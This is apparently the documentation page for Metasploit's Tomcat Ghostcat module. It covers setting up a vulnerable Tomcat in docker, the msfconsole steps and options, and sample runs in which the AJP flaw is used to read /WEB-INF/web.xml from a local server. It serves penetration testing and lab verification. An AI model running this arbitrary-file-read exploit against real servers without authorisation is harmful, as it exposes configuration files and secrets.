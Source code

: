 ## Vulnerable Application

### Description

This module can be used to retrieve arbitrary files from anywhere in the web application, including the `WEB-INF` and `META-INF`
directories and any other location that can be reached via ServletContext.getResourceAsStream() on Apache Tomcat servers.
It also allows the attacker to process any file in the web application as JSP.

### Setup

Running within a docker container:

```
docker run --name tomcat --rm -p 8080:8080 -p 8009:8009 tomcat:8.5.32
```

## Verification Steps

1. Install the application and start it
2. Start msfconsole
3. Do: `auxiliary/admin/http/tomcat_ghostcat`
4. Do: `set RHOSTS [ip]`
5. Do: `set RPORT [port]`
6. Do: `set FILENAME [filename]`
7. Do: `run`

## Options

### FILENAME
The file you would like to retrieve from the target web application.

### AJP_PORT
The port on the target that is running the Apache JServ Protocol (AJP).

## Scenarios

### Apache Tomcat 8.5.32

```
msf6 > use auxiliary/admin/http/tomcat_ghostcat
msf6 auxiliary(admin/http/tomcat_ghostcat) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(admin/http/tomcat_ghostcat) > set RPORT 8080
RPORT => 8080
msf6 auxiliary(admin/http/tomcat_ghostcat) > set FILENAME /WEB-INF/web.xml
FILENAME => /WEB-INF/web.xml
msf6 auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 127.0.0.1
Status Code: 200
Accept-Ranges: bytes
ETag: W/"1227-1529524397000"
Last-Modified: Wed, 20 Jun 2018 19:53:17 GMT
Content-Type: application/xml
Content-Length: 1227
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
  version="3.1"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>

[+] 127.0.0.1:8080 - /Users/user/.msf4/loot/20210408102538_default_127.0.0.1_WEBINFweb.xml_436040.txt
[*] Auxiliary module execution completed
```

### Apache Tomcat on Windows 10.0.16299.125

```
  [*] Processing tomcat_ghostcat.rb for ERB directives.
  resource (tomcat_ghostcat.rb)> use auxiliary/admin/http/tomcat_ghostcat
  resource (tomcat_ghostcat.rb)> set rport 8080
  rport => 8080
  resource (tomcat_ghostcat.rb)> set rhosts 127.0.0.1
  rhosts => 127.0.0.1
  resource (tomcat_ghostcat.rb)> set verbose true
  verbose => true
  resource (tomcat_ghostcat.rb)> set FILENAME /WEB-INF/web.xml
  filename => /WEB-INF/web.xml

  resource (tomcat_ghostcat.rb)> run
  [*] Running module against 127.0.0.1
  <?xml version="1.0" encoding="UTF-8"?>
<!--
    Copyright 2017 The MIT Internet Trust Consortium

    Portions copyright 2011-2013 The MITRE Corporation

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
-->

  <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"

xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd">

version = "4.0"
metadata-complete="true">

<display-name> Welcome to Tomcat </display-name>
<description>
 Welcome to Tomcat
 </description>

 <web-app>
[*] Auxiliary module execution completed

```
